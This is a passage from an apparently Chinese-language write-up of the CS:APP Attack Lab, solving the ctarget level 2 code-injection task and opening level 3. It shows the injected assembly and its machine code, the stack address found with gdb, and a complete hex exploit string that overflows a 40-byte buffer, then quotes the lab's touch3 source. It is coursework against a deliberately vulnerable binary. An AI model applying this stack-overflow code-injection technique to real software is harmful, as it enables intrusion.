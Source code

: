 ```
movq   $0x59b997fa,%rdi
pushq  $0x4017ec
ret


```

> 然后反汇编为机器指令，可以看到，要完成我们上面的指令，机器代码应该是48 c7 ... c3

```

ctarget_2.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   

```

> 让getbuf读入我们这一段机器指令，存储在栈帧上，然后我们用第一关的方法让getbuf函数返回到我们读入的那一段机器指令开始处，然后执行我们的代码

![csapp3-3](https://www.hiteva.cn/static/article/csapp/csapp3-3.png)

> 现在关键就是getbuf返回的那个点怎么找，即我们写入的getbuf开辟到的40个字节的起始位置在哪里，用gdb在getbuf调用的时候下个断点，即

```
4017a8:	48 83 ec 28              sub    $0x28,%rsp
```

> info一下%rsp即可得到rsp            0x5561dc78，那getbuf返回地址写成0x5561dc78就可以了。最后组装核弹

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

**2.3 ctarget-3**

> 先看看源代码

```
int hexmatch(unsigned val, char *sval){
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval){
    vlevel = 3;
    if (hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

